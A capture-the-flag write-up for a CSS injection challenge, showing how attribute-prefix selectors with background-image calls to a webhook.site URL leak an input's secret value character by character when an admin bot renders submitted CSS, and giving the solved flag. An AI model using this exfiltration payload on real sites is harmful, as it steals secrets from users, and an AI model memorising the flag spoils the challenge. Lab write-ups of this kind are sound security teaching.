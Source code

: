 # [WEB] Beautiful Styles
# Description
I opened a contest to see who could create the most beautiful CSS styles. Feel free to submit your CSS styles to me and I will add them to my website to judge them. I'll even give you a sample of my site to get you started. 
Flag only consists of numbers and uppcase letters and the lower character f.

Author: Junhua

http://challs.nusgreyhats.org:3333

# Approach
Entering the website, we are greeted with the following landing page, consisting of a source code of some web content and also an input for CSS styling.

![Landing Page](../images/beautiful-styles-1.png)

After clicking on the submit button, we are redirected to another page `/submission/submission_id` showing us the preview of how our CSS input has changed the styling of the web content. 
There is also a button to submit our code for judging, which is likely visited by some kind of admin bot.

![Submission Page](../images/beautiful-styles-2.png)

From the source code of the web content that they've shown us, we know that the flag is stored in an input tag, within the "value" attribute.
To exploit CSS injection, we provide the following CSS:

```
input[value^=grey\{] {
    background-image: url(https://webhook.site/XXX)
}
```

Get your own webhook URL [here](https://webhook.site/)

The `^=` selector will lead to the url being accessed if the value attribute starts with the specified string `grey{`, which we know it would be since it is part of the flag format. 
We just need to submit the CSS for judging to let the admin bot execute it. Since the admin bot (judge) is the one making request, its flag value will be the legitimate one which we are looking for, and not the fake flag which we see currently.
When the admin bot loads our CSS, our webhook is called.

From there on, we just need to perform what I call a `Inference-Based Blind Attack` (aka Brute-forcing) to add on additional characters to the value, recording down whenever our webhook receives a request. 
Eventually, it builds up to the following:

`input[value^=grey\{X]`

`input[value^=grey\{X5]`

`input[value^=grey\{X5S]`

`input[value^=grey\{X5S3]`

...

`input[value^=grey{X5S34RCH1fY0UC4NF1ND1T\}]`

![Webhook Requests](../images/beautiful-styles-3.png)

I have provided an automation script in this challenge folder. However, the script has to be run for each character of the flag, up until the last character of the flag `}` is present in the built `currentFlag` variable, which you will need to update each time you run the script. This is because I am not able to figure out a way to let the script know when our webhook gets called by the admin bot.

For keeping track of our flag which is being "built", we can append a `?c={Current Flag Progress}` query parameter to our webhook URL (included in the script). This way, we can monitor which character is next in the flag via the webhook page.

![Flag Progress](../images/beautiful-styles-4.png)

Flag: `grey{X5S34RCH1fY0UC4NF1ND1T}`
